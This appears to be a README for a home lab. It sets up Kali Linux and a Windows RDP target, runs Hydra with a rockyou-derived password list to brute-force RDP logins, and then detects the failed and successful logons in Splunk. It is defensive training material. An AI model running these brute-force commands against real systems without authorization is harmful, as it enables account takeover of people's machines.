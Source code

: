 # Kali Linux (Attacking Machine) Lab Setup

> **Note:**  
> For this lab, ensure all virtual machines (Windows 10, Windows Server, Kali Linux) are running, along with the Splunk server on the Ubuntu VM.

---

## 1. NAT Network Configuration

- Connect all virtual machines to a **NAT Network** in your virtualization platform to ensure a safe and isolated lab environment.
  
https://github.com/user-attachments/assets/67a252dd-0141-466f-a16a-fb61e4151aa8


---


## 2. Kali Linux IP Configuration

1. **Start Kali Linux** in VirtualBox.
2. On the desktop, right-click the **Network** icon and select **Edit Connections**.
3. Select your connection and click the **Settings** icon.
4. Go to the **IPv4** tab. Change the **Method** from `Automatic (DHCP)` to `Manual`.
5. Click **Add** and enter the following details:
    - **IP address:** `192.168.10.250`
    - **Netmask:** `24`
    - **Gateway:** `192.168.10.1`
    - **DNS Server:** `8.8.8.8`
6. Save the settings.
7. Right-click the **Network** icon again and click **Disconnect** to reset the connection, then reconnect.
8. Open a Terminal and verify your IP:
    ```bash
    ip a
    ```
9. Check internet connectivity:
    ```bash
    ping 8.8.8.8
    ```
    - If there is no packet loss, your setup is correct.
10. Update Kali Linux:
    ```bash
    sudo apt-get update && sudo apt-get upgrade
    ```

https://github.com/user-attachments/assets/e31b0921-12fc-4316-8466-62d446e0728a


---


## 3. Target Machine (Windows) RDP Setup

1. Start the **Target Machine** (e.g., Windows 10).
2. Open the **Start Menu**, search for “This PC,” and open **Properties**.
3. Scroll down and click **Advanced System Settings**.
4. In the **System Properties** window, go to the **Remote** tab.
5. Enable **Allow remote connections to this computer**.
6. Click **Select Users…** and then **Add…** to add users allowed for RDP.
7. Enter the desired user(s), click **Check Names**, and save.

https://github.com/user-attachments/assets/50394a04-ab92-481a-8f62-f2e182e52176


---


## 4. Preparing a Password List for Brute Forcing

1. Open Terminal in Kali and go to the Desktop:
    ```bash
    cd ~/Desktop
    ```
2. Create a project directory:
    ```bash
    mkdir ad-project
    cd ad-project
    ```
3. Copy the default wordlist:
    ```bash
    cp /usr/share/wordlists/rockyou.txt .
    ```
4. Create a smaller password file for testing:
    ```bash
    head -n 20 rockyou.txt > passwords.txt
    ```
5. Edit or add passwords as needed:
    ```bash
    nano passwords.txt
    ```
    - Add or edit passwords, then save with `CTRL+O` and exit with `CTRL+X`.
6. Confirm the file exists:
    ```bash
    ls
    ```
https://github.com/user-attachments/assets/e2a092fc-5e40-4f08-a728-329b49eeb516


---


## 5. Performing a Brute Force Attack with Hydra

1. Navigate to your project directory:
    ```bash
    cd ~/Desktop/ad-project
    ```
2. Run Hydra for a single username:
    ```bash
    hydra -l jennyj -P passwords.txt rdp://192.168.10.100 -t 1
    ```
    - `-l` specifies the username.
    - `-P` points to your password list.
    - `rdp://192.168.10.100` is the RDP protocol and target IP.
    - `-t 1` sets the number of parallel tasks.
3. To attack multiple users:
    - Create a username list:
      ```bash
      nano login.txt
      ```
      (Add usernames, one per line. Save and exit.)
    - Run Hydra:
      ```bash
      hydra -L login.txt -P passwords.txt rdp://192.168.10.100 -t 1
      ```
    - `-L` is used for multiple usernames.

- Hydra will display successful username/password combinations.


https://github.com/user-attachments/assets/cfb8a722-c421-4429-a004-153ea8bd96de


---


## 6. Monitoring the Attack in Splunk

1. On your Windows 10 or Windows Server VM, open a browser and go to the Splunk server:
    ```
    http://192.168.10.10:8000
    ```
2. In Splunk, go to **Apps > Search & Reporting**.
3. In the search bar, enter:
    ```
    index="endpoint" jennyj
    ```
    - This will show all logs/events related to the user "jennyj."
4. On the left, click **EventCode** to view event codes.
    - **4625:** Account failed to log on (failed login attempts)
    - **4624:** Account successfully logged on
5. Clicking an event shows details, including workstation and attacker's IP.

> **Tip:** Multiple failed logins in a short time likely indicate a brute-force attack.


https://github.com/user-attachments/assets/37c1ef54-11bb-4b35-be7e-8e9de5cc9e5b


---

## Additional Recommendations

- Always use isolated networks for labs.
- Never attack real/live systems without permission.
- Regularly snapshot your VMs for easy rollback.

---

**This guide provides a safe, educational environment for practicing Active Directory attacks and monitoring. For any issues or clarifications, consult the documentation or reach out to your instructor.**
